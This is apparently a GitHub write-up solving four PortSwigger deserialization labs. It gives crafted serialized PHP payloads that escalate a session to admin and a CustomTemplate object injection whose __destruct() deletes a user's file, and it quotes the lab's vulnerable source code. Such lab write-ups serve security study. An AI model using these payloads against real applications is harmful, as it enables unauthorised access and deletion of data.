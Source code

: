 ## Modifying serialized objects

[Modifying serialized objects](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-objects)

Write-up:

1. Logging in sets a session cookie: `TzTzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d`

2. Base-64 decoding this gets us `O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}`
Altering the admin value to 1, re-encoding the cookie and changing it in the lab
gets us admin access. Accessing the admin panel allows us to delete user `carlos`
and solve the lab. 

## Modifying serialized data types

[Modifying serialized data types](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-data-types)

Write-up:

1. Session cookie after login: `Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ1NHRhNjMzdnNyM3p2NHVpYjdrYW92aTNta284NXVhOCI7fQ%3d%3d`. 

2. Base-64 decoding this gets us: `O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"u4ta633vsr3zv4uib7kaovi3mko85ua8";}`

3. Crafting the following payload, base-64 encoding it and setting session cookie gets us admin access and allows us to delete user `carlos` and solve the lab:

    `O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";i:0;}`

## Using application functionality to exploit insecure deserialization

[Using application functionality to exploit insecure deserialization](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-application-functionality-to-exploit-insecure-deserialization)

Write-up:

1. Decoded session cookie after login as `wiener:peter`: `O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"sfe5z0dkqi5eq6k09qbpgak1z3gbn7x0";s:11:"avatar_link";s:19:"users/wiener/avatar";}`

2. We craft a payload to delete `morale.txt`: `O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"sfe5z0dkqi5eq6k09qbpgak1z3gbn7x0";s:11:"avatar_link";s:10:"morale.txt";}`

3. Re-encoding it, setting as session cookie and deleting our account allows us to solve the lab.

## Arbitrary object injection in PHP

[Arbitrary object injection in PHP](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-arbitrary-object-injection-in-php)

Write-up:

1. Looking at the source code of `/my-account` we find the following: `<!-- TODO: Refactor once /libs/CustomTemplate.php is updated -->`
Attempting to use a GET request to get that file returns nothing. We can use the
hint given and access `libs/CustomTemplate.php~` to retrieve the source code.

    ```php
    <?php

    class CustomTemplate {
        private $template_file_path;
        private $lock_file_path;

        public function __construct($template_file_path) {
            $this->template_file_path = $template_file_path;
            $this->lock_file_path = $template_file_path . ".lock";
        }

        private function isTemplateLocked() {
            return file_exists($this->lock_file_path);
        }

        public function getTemplate() {
            return file_get_contents($this->template_file_path);
        }

        public function saveTemplate($template) {
            if (!isTemplateLocked()) {
                if (file_put_contents($this->lock_file_path, "") === false) {
                    throw new Exception("Could not write to " . $this->lock_file_path);
                }
                if (file_put_contents($this->template_file_path, $template) === false) {
                    throw new Exception("Could not write to " . $this->template_file_path);
                }
            }
        }

        function __destruct() {
            // Carlos thought this would be a good idea
            if (file_exists($this->lock_file_path)) {
                unlink($this->lock_file_path);
            }
        }
    }

    ?>
    ```

2. We can use the ``__destruct()`` function to solve the lab: 
`O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}`

    Setting the `lock_file_path` attribute to `/home/carlos/morale.txt` allows us to
    delete that file once the script is executed (by a GET request to `/libs/CustomTemplate.php`).

3. After base-64 and URL encoding (in that order) the object and setting it as the session cookie, we can make
the GET request to solve the lab:   `TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjE6e3M6MTQ6ImxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ%3D%3D`


